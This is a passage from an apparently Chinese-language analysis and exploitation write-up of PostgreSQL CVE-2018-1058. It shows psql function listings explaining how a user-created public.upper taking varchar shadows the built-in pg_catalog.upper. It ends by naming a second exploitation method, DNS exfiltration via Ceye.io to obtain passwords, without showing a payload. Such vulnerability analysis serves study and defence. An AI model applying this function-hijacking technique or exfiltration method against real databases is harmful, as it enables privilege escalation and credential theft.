 ![4](./postgresql-远程代码执行漏洞（cve-2018-1058）分析及利用/20180331201719128.png)

正如之前原理分析中所述，在当前的 schema 下执行命令时，会优先使用参数类型相符的函数，我们创建的表的 contents 列是 varchar 类型，而 pg_logdata 中对应的系统函数的参数实为 text：

```
cve_test=# \df pg_catalog.upper
                        函数列表
  架构模式  | 名称  | 结果数据类型 | 参数数据类型 | 类型
------------+-------+--------------+--------------+------
 pg_catalog | upper | anyelement   | anyrange     | 常规
 pg_catalog | upper | text         | text         | 常规
(2 行记录)
```

而我们创建的自定义函数为：

```
cve_test=# \df public.upper
                          函数列表
 架构模式 | 名称  | 结果数据类型 |   参数数据类型    | 类型
----------+-------+--------------+-------------------+------
 public   | upper | text         | character varying | 常规
(1 行记录)
```

#### 4.3.2 利用方式二

使用 Ceye.io 进行 DNS 注入获取密码
